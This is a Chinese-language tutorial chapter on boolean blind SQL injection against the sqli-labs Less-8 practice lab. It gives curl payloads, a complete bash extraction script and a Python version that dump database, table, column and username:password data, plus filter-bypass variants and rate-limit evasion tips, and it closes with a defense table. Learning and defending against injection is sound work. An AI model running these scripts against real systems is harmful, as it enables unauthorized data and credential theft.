

## 04 布尔盲注 -- 考点精讲

> 前置知识：[[03-报错注入|03-报错注入]] -- 报错不可用时的下一级手段
>
> 关联教程：[[05-时间盲注|05-时间盲注]] · [[../../../archstrike-web教学/04-SQL注入攻击|SQL注入实战]]

### 适用条件

页面**不回显任何查询数据、也不回显报错**，但注入条件真假会导致**两种可区分的页面状态**：

- 真状态：正常返回 "You are in..." 等内容
- 假状态：空白页、"user not exist" 提示、跳转等

本章靶场对照：sqli-labs **Less-8**（GET 单引号闭合，无回显位、无报错、只有真假两种状态）。判断方法：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-8/?id=1' and 1=1 --+"   # You are in...........
curl -s "http://127.0.0.1/sqli-labs/Less-8/?id=1' and 1=2 --+"   # 空白
```

两个 payload 页面不同且稳定 → 布尔盲注可行。

### 判断真假锚点

锚点是自动化脚本的核心，必须选一个**机器可判断**的差异。curl 场景下最常用的是比大小：

```bash
# 比响应体大小：一个数字搞定真假判定
curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-8/?id=1' and 1=1 --+"
# 输出: 760

curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-8/?id=1' and 1=2 --+"
# 输出: 617
```

| 锚点类型 | curl 判定方式 | 说明 |
|---------|--------------|------|
| 内容长度 | `-w "%{size_download}"` 比大小 | 最推荐，无需解析 HTML |
| 特征字符串 | `\| grep -q "You are in"` | 直观，依赖固定文案 |
| HTTP 状态码 | `-w "%{http_code}"` | 真 200 / 假 302 或 500 时可用 |
| 响应头差异 | `-I` 看 Set-Cookie 有无 | 少数场景 |

先手工确认一次真/假各自的 size_download 数值并记录，后续脚本全部以此为判据。注意动态页面（随机 token、广告位）会导致长度抖动，此时改用 grep 特征串更稳。

### 核心函数组合

布尔盲注三板斧——量长度、切字符、转数字：

| 函数 | 作用 | 示例 |
|------|------|------|
| `length(s)` | 字符串长度 | `length(database())>3` |
| `substr(s,pos,len)` | 截取子串（pos 从 1 开始） | `substr(database(),1,1)='s'` |
| `ascii(c)` / `ord(c)` | 字符转 ASCII 码比较 | `ascii(substr(database(),1,1))=115` |
| `left(s,n)` / `right(s,n)` | 取前/后 n 位 | `left(database(),1)='s'` |

为什么用 ascii() 而不是直接比字符？一是避免引号被过滤时没法写字符常量，二是 ASCII 数字便于二分法。

完整猜解结构——把要猜的字符串包进 substr 再转 ascii，与数字比较：

```sql
-- 第 i 个字符是否大于 m？（二分问法）
?id=1' and (select ascii(substr(database(),1,1)))>115 --+
```

### 手工逐位猜解演示

以猜 database() 第一个字符为例，展示完整的二分手工过程。已知范围是 ASCII 可见区 [32,127]：

```bash
BASE="http://127.0.0.1/sqli-labs/Less-8/"

# 先测库名长度：length() 从小到大试
$ curl -s "${BASE}?id=1' and length(database())=4 --+"
You are in...........          # 长度 = 4
```

```bash
# 二分第一字符：每次一条 curl，看返回是否含 You are in
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))>96 --+"   # 真 → 范围 [97,127]
You are in...........
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))>112 --+"  # 真 → [113,127]
You are in...........
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))>120 --+"  # 假 → [113,120]
（空白）
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))>116 --+"  # 假 → [113,116]
（空白）
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))>114 --+"  # 真 → [115,116]
You are in...........
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))>115 --+"  # 假 → 锁定 115
（空白）
$ curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))=115 --+"  # 验证
You are in...........          # 第一个字符 = chr(115) = 's'
```

7 次请求确定一个字符。继续第 2 位只需把 substr 的第二个参数改成 2：`ascii(substr(database(),2,1))>100`……最终拼出 **security**。手工做完全程很枯燥但值得练一轮，理解了它就看懂了所有自动化脚本。

### 五步方法论在盲注中的形态

五步骨架不变，只是每一步的"答案"都要靠逐位猜解获得：

```text
Step 1 确认注入存在：恒真恒假对比（见上文锚点确认）
Step 2 order by 探列数：?id=1' order by 3 --+ 真假对比（盲注主路线不需要列数，可选）
Step 3 猜当前数据库名：ascii(substr(database(),i,1)) 逐位二分
Step 4 猜表名：把 database() 换成 information_schema 子查询逐位猜
Step 5 猜列名与数据：内层子查询换成 columns/目标表，套路不变
```

#### Step 3 猜解当前数据库（承接上文，security 四个字母）

```bash
BASE="http://127.0.0.1/sqli-labs/Less-8/"
# 已知长度 4；逐位二分，这里直接给出每位的验证式
curl -s "${BASE}?id=1' and ascii(substr(database(),1,1))=115 --+"   # s
curl -s "${BASE}?id=1' and ascii(substr(database(),2,1))=101 --+"   # e
curl -s "${BASE}?id=1' and ascii(substr(database(),3,1))=99 --+"    # c
curl -s "${BASE}?id=1' and ascii(substr(database(),4,1))=117 --+"   # u
# 后两位同理 ... 最终 security
```

#### Step 4 猜表名（substr 直接套子查询）

```bash
# 先猜表名总串长度
curl -s "${BASE}?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema='security'))=30 --+"

# 逐位猜第一个表名首字母
curl -s "${BASE}?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101 --+"
# =101 即 'e' → emails 表
```

#### Step 5 猜列名再逐位取数据

```bash
# users 表已知（Less-8 环境），猜 flag 类数据的每一位
curl -s "${BASE}?id=1' and ascii(substr((select group_concat(username,0x3a,password) from security.users limit 0,1),1,1))=68 --+"
# =68 即 'D'（Dumb 的 D），后续位置改 substr 第二参数即可
```

#### 常用 ASCII 对照速查

二分猜解时手工换算字符的高频区间：

| ASCII | 字符 | ASCII | 字符 | ASCII | 字符 |
|-------|------|-------|------|-------|------|
| 48-57 | 0-9 | 97 | a | 112 | p |
| 65-90 | A-Z | 98 | b | 114 | r |
| 95 | _ | 99 | c | 115 | s |
| 100 | d | 101 | e | 116 | t |
| 102 | f | 103 | g | 117 | u |
| 105 | i | 108 | l | 110 | n |
| 109 | m | 111 | o | 119 | w |

flag 场景高频字母：f=102、l=108、a=97、g=103；库名常见 s=115、e=101、c=99、u=117、r=114。终端里随时可用 `printf "\\$(printf '%03o' 115)"` 或 `echo -e "\x73"` 反查。

### bash 自动化猜解脚本

完整可运行，纯 curl 实现，二分法 + length 优化，输出明文字符：

```bash
#!/bin/bash
# bool_blind.sh：Less-8 布尔盲注自动化（bash + curl）
BASE="http://127.0.0.1/sqli-labs/Less-8/"

# 真假判据：真状态响应体约 760 字节，假状态约 617 字节
is_true() {
  local size
  size=$(curl -s -o /dev/null -w "%{size_download}" \
         "${BASE}?id=1' ${1} --+")
  [ "$size" -gt 700 ]
}

# 测表达式结果的总长度（length 优化：先知道多长再逐位猜）
get_length() {
  for ((len=1; len<=300; len++)); do
    if is_true "and length((${1}))=${len}"; then
      echo $len
      return
    fi
  done
  echo 0
}

# 二分猜解表达式的第 pos 个字符
guess_char() {
  local expr=$1 pos=$2
  local left=32 right=127 mid
  while [ $left -lt $right ]; do
    mid=$(( (left + right) / 2 ))
    if is_true "and ascii(substr((${expr}),${pos},1))>${mid}"; then
      left=$((mid + 1))
    else
      right=$mid
    fi
  done
  echo $left
}

# 主流程：给定任意子查询表达式，逐位猜出整串
dump_expr() {
  local expr=$1 result="" len pos code
  len=$(get_length "$expr")
  echo "[*] 表达式长度: $len"
  for ((pos=1; pos<=len; pos++)); do
    code=$(guess_char "$expr" $pos)
    result="${result}$(printf "\\$(printf '%03o' "$code")")"
    echo "[+] pos=${pos}: ${result}"
  done
  echo "[==] 结果: ${result}"
}

echo "== 数据库 =="
DB=$(dump_expr "database()")

echo "== 表名 =="
TABLES=$(dump_expr "(select group_concat(table_name) from information_schema.tables where table_schema='${DB}')")

echo "== 列名（users 表）=="
COLS=$(dump_expr "(select group_concat(column_name) from information_schema.columns where table_schema='${DB}' and table_name='users')")

echo "== 数据（users 表）=="
dump_expr "(select group_concat(username,0x3a,password) from ${DB}.users)"
```

运行效果示意：

```text
$ bash bool_blind.sh
== 数据库 ==
[*] 表达式长度: 8
[+] pos=1: s
[+] pos=2: se
[+] ...
[==] 结果: security
== 表名 ==
[*] 表达式长度: 30
...
```

适配要点：换目标只改 BASE 与 is_true 的阈值；闭合方式不同改 is_true 里 payload 前缀（如 `1"` 或 `1')`）。

### 本章特有技术

#### length() 先测长度的价值

不做 length 探测就得对每个位置都跑一遍二分再靠"探到边界"判断结束，白白多花请求。先测长度后：

```text
库名 security：不测长度 ≈ 8×8+8×结束探测 ≈ 72 次；测长度后精确 8×7=56 次
数据越长节省越明显，且循环边界明确不会提前误停
```

代价只是每个字符串多几次请求，收益是确定的停止条件，永远先测。

#### 二分 vs 全枚举 vs regexp



regexp 变体在引号可用时效率极高：

```bash
# 前缀匹配：一次请求确认一个前缀，而不是一个字符
curl -s "${BASE}?id=1' and (select group_concat(table_name) from information_schema.tables where table_schema=database()) regexp '^emails' --+"
```

其他变体速查：

| 变体 | payload 示例 | 适用场景 |
|------|-------------|---------|
| like | `?id=1' and (select table_name from information_schema.tables limit 0,1) like 'a%' --+` | 过滤 `=` |
| left/right | `?id=1' and left(database(),1)='s' --+` | 过滤 substr |
| in | `?id=1' and substr(database(),1,1) in ('s') --+` | 配合字典批量验证 |
| ord+mid | `?id=1' and ord(mid(database(),1,1))=115 --+` | 过滤 ascii/substr |

#### Python 版对照脚本

同一逻辑的 requests 实现，结构对应 bash 脚本的 is_true/get_length/guess_char 三件套：

```python
import requests

URL = "http://127.0.0.1/sqli-labs/Less-8/?id="

def is_true(payload):
    try:
        r = requests.get(URL + payload, timeout=10)
        return "You are in" in r.text          # Less-8 的真锚点
    except requests.RequestException:
        return False

def binary_search(expr):
    result = ""
    pos = 1
    while True:
        left, right = 32, 127                  # ASCII 可见范围
        if not is_true(f"1' and length({expr})>={pos}--+"):
            break                              # 长度不够了，结束
        while left < right:
            mid = (left + right) // 2
            if is_true(f"1' and ascii(substr({expr},{pos},1))>{mid}--+"):
                left = mid + 1
            else:
                right = mid
        if left == 32:                         # 探到边界外，收工
            break
        result += chr(left)
        pos += 1
        print(f"[+] {result}")
    return result

db = binary_search("database()")
print(f"[==] 数据库: {db}")
tables = binary_search(f"(select group_concat(table_name) from information_schema.tables where table_schema='{db}')")
print(f"[==] 表名: {tables}")
```

bash 与 Python 各有场景：bash 无依赖适合靶机环境即开即打，Python 便于加并发和重试。

#### 效率优化对比

| 方案 | 单字符请求数 | 说明 |
|------|------------|------|
| 全枚举 | 最多 95 次 | 只适合演示 |
| **二分法** | 约 7 次 | 最通用，推荐默认 |
| regexp 前缀 | 每表约 len 次 | 猜整个字符串而非逐字符，命中快 |
| 多线程并发 | - | 不同位置/区间并行，注意别打挂靶场 |

以库名 security（8 字符）为例的请求量估算：

```text
全枚举:   8 × 平均 50 次 ≈ 400 请求
二分法:   length(8) + 8 × 7 ≈ 64 请求
regexp:  长度 + 每字符 1~2 次 ≈ 25 请求左右
并发二分: 各位并行后 ≈ 单字符耗时即为总耗时
```

### CTF 例题思路表

| 题目特征 | 思路 |
|---------|------|
| 页面只有"存在/不存在"两种文案 | 本篇标准流程：锚点确认后逐位二分 |
| 真假差异极小（少一个空格） | 用 `-w "%{size_download}"` 比大小代替肉眼看 |
| 引号被过滤无法闭合 | 找无引号写法：整数型上下文直接 `and length(database())=4` |
| ascii/substr 被过滤 | ord+mid、left/right、regexp 变体 |
| 数据很长逐位太慢 | regexp 前缀匹配整串推进，或多线程并发 |
| 响应不稳定偶尔抽风 | is_true 失败时重发一次再判定，防误判 |
| 登录框布尔差异（用户不存在/密码错误） | 同样适用，注入点在 uname 或 passwd 任一参数 |

### 坑位速查

| 现象 | 原因 | 解决 |
|------|------|------|
| 真假状态 size_download 抖动 | 页面有随机内容 | 改 grep 特征串，或多次取样投票 |
| 二分卡死不收敛 | payload 引号没配平，语句报错恒假 | 检查闭合符号与注释符 |
| substr 第二参数忘了改 | 复制粘贴惯性 | 脚本里用变量传 pos，禁止手抄 |
| 猜出的字符全是同一个值 | is_true 判断反了或阈值错 | 先手工验证一真一假两条基准 |
| `--+` 后仍语法错误 | 二次 URL 解码吃掉注释 | 换 `%23` 结尾 |
| 请求过快被限速 | 盲注流量特征明显 | sleep 间隔 + 降低并发 |
| length 探测到 0 | 表达式为 NULL 或表名错误 | 先单独验证子查询能返回值 |

### 自动化：sqlinject.py 工具

手工五步熟练后，可用自制工具一键完成（工具源码与用法见 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`），位于 ~/hackingtools/web/injection/sqlinject，支持 -h/--help 查看完整指南）：

```bash
# Less-8 场景：无回显无报错，指定布尔盲注模式
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-8/?id=1'" --blind bool
```

`--blind bool` 模式自动完成：锚点校准（自动学习真假状态的判定特征）→ 爆库 → 爆表 → 爆列 → 取数，内部默认二分法并带 length 优化与失败重试。手工 bash 脚本的价值在于锚点异常时你能立刻定位是判据失效而非 payload 失效。

### 防御手段

| 防御方式 | 说明 |
|---------|------|
| 统一错误与空态页面 | 真假状态返回相同长度与文案，消灭锚点 |
| 预编译 | 根治方案，同前几章 |
| 限制请求频率 | WAF 层限速，让盲注的成千上万次请求不可行 |
| 监控异常访问模式 | 同一参数高频二分式访问直接封禁 |
| 加随机扰动 | 页面嵌入随机长度内容，破坏 size_download 判据 |

---
**返回** [[SQL总目录|SQL 总目录]]
